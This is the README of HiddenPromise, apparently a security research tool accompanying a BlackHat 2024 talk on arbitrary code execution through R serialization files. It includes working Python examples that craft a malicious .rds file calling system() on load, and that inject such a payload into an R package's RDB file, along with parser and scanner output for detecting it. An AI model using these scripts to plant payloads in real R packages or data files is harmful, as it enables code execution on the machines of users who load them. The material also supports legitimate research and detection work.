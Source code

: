 # HiddenPromise

This repository houses HiddenPromise, a dissassembler and compiler for R .rdx, .rdb, and .rds files. The tool was released during BlackHat US 2024 along with the talk [We R in a Right Pickle With All These Insecure Serialization Formats](https://www.blackhat.com/us-24/briefings/schedule/index.html#we-r-in-a-right-pickle-with-all-these-insecure-serialization-formats-39137) and allows users to recreate all of the techniques described in the talk including the ability to scan RDB files for malicious code and inject malicious code into RDB files. For more on the R serialization vulnerability, see [our blog on the topic](https://hiddenlayer.com/research/r-bitrary-code-execution/)

## Installation

```
git clone https://github.com/hiddenlayer-engineering/HiddenPromise.git
cd HiddenPromise
pip install .
```

## Compiler

This is the serialized file compiler, it has five functions:

- as_integer
    - this function will output the given value as integers
- as_real
    - this function will output the given value as real values
- build_header
    - this function initialises the header of the serialized file you're constructing
- add_instruction
    - this adds the given instruction to the serialized file
- craft_file
    - this function converts an array of instructions into a full serialized file and returns it

As shown in `./examples/create_exploit.py` it is possible to use the compiler to generate RDX files directly:

```python
from hiddenpromise.compiler import Opcode, Compiler, TYPES
import gzip

instructions = [
    Opcode(TYPES.PROMSXP, 0, False, False, False,None,False),

    Opcode(TYPES.UNBOUNDVALUE_SXP, 0, False, False, False,None,False),

    Opcode(TYPES.LANGSXP, 0, False, False, False,None,False),
    Opcode(TYPES.SYMSXP, 0, False, False, False,None,False),
    Opcode(TYPES.CHARSXP, 64, False, False, False,"system",False),
    Opcode(TYPES.LISTSXP, 0, False, False, False,None,False),
    Opcode(TYPES.STRSXP, 0, False, False, False,1,False),
    Opcode(TYPES.CHARSXP, 64, False, False, False,'echo "pwned by HiddenLayer"',False),
    Opcode(TYPES.NILVALUE_SXP, 0, False, False, False,None,False),
]

gzip.open("pwned.rds", "wb").write(Compiler.craft_file(instructions))
```

## Parser

The parser allows users to parse RDX type files into python objects for traversal:

For example, we can decompile our pwned.rds file created in the above with the below:

```python
from hiddenpromise.parser import Parser

data = open("../example_files/pwned.rds", "rb").read()
parsed = Parser(data).parse()
print(parsed)
```

Printing out the parsed object allows us to see the object representation:

```
RData(
  versions: <hiddenpromise.parser.RVersions object at 0x102bd3b50>
  extra: <hiddenpromise.parser.RExtraInfo object at 0x102bd31c0>
  object: 
    RObjectType.PROM
      value:
        RObjectType.UNBOUNDVALUE
          value:
            None
        RObjectType.LANG
          value:
            RObjectType.SYM
              value:
                RObjectType.CHAR
                  value:
                    b'system'
            RObjectType.LIST
              value:
                RObjectType.STR
                  value:
                    RObjectType.CHAR
                      value:
                        b'echo "pwned by HiddenLayer"'
                RObjectType.NILVALUE
                  value:
                    None

)
```

## Injector

We have also provided a tool to inject malicious code into RDB files, this can be done with the below script:

```python
from hiddenpromise.injector import inject_code
from hiddenpromise.compiler import Opcode, TYPES

instructions = [
    Opcode(TYPES.PROMSXP, 0, False, False, False,None,False),

    Opcode(TYPES.UNBOUNDVALUE_SXP, 0, False, False, False,None,False),

    Opcode(TYPES.LANGSXP, 0, False, False, False,None,False),
    Opcode(TYPES.SYMSXP, 0, False, False, False,None,False),
    Opcode(TYPES.CHARSXP, 64, False, False, False,"system",False),
    Opcode(TYPES.LISTSXP, 0, False, False, False,None,False),
    Opcode(TYPES.STRSXP, 0, False, False, False,1,False),
    Opcode(TYPES.CHARSXP, 64, False, False, False,'echo "pwned by HiddenLayer"',False),
    Opcode(TYPES.NILVALUE_SXP, 0, False, False, False,None,False),
]

if __name__ == "__main__":
    inject_code("../example_files/compiler.rdx", "../example_files/compiler.rdb", b"notifyBadCall", instructions)
```

## Package Scanning

Located in `./scripts/scan_packages.py` we have provided a tool which finds RDX and RDB files and extracts the first opcode for each code chunk in an RDB file. When we run it on the original and the exploited for the file we injected above we can see the differences:

Original:

```
../example_files/compiler.rdx Type: RObjectType.VEC
         .__NAMESPACE__. [591, 54] First Instruction: RObjectType.PERSISTSXP
         ...
         notifyBadCall [175144, 368] First Instruction: RObjectType.CLO
```

Injected:

```
../example_files/compiler_malicious.rdx Type: RObjectType.VEC
         .__NAMESPACE__. [591, 54] First Instruction: RObjectType.PERSISTSXP
         ...
         notifyBadCall [175144, 93] First Instruction: RObjectType.PROM
```